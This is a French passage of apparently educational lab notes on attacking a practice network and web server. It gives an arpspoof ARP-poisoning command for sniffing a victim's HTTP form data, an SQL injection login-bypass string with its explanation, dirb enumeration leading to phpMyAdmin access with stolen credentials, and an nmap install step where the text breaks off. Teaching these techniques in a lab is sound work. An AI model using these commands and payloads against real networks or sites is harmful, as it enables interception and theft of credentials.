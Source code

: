 * Lancer l'empoisonnement du cache ARP de la victime :
```
arpspoof -i {Nom carte réseau} -t {Adresse IP victime} {Adresse IP passerelle}
```

* Vérifier la contamination du cache ARP sur la machine de la victime :
```
ip n
```

* Utiliser l'analyseur de réseau Wireshark (sniffer) pour visualiser le contenu des formulaires HTTP

## Intrusion sur un serveur Web

### Injection SQL :

* Se rendre sur un site Web avec la chaîne ci-dessous comme identifiant et mot de passe : 
```
' OR 1 = 1 --
```

Soit la requête ci-dessous :
```
SELECT * FROM USERS WHERE ID='$id' AND PWD='$pwd'
```

Ainsi, l'injection SQL permet de commenter la partie de la requête pour le mot de passe et d'effectuer un OU avec une condition toujours vraie afin de récupérer toutes les informations de la base de données :
```
SELECT * FROM USERS WHERE ID='' OR 1 = 1 --' AND PWD='' OR 1 = 1 --'
```

### Accès à la base de données

* Installation des paquets nécessaires :
```
apt-get install dirb
```

* Analyse des fichiers du serveur Web :
```
dirb http://honey.plil.info
```

On remarque la présence du répertoire `phpmyadmin` sur le serveur.

* Ouvrir l'URL `http://honey.plil.info/phpmyadmin` et essayer de se connecter avec les identifiants récupérés

### Connexion au serveur

* Installation des paquets nécessaires :
```
apt-get install nmap
```
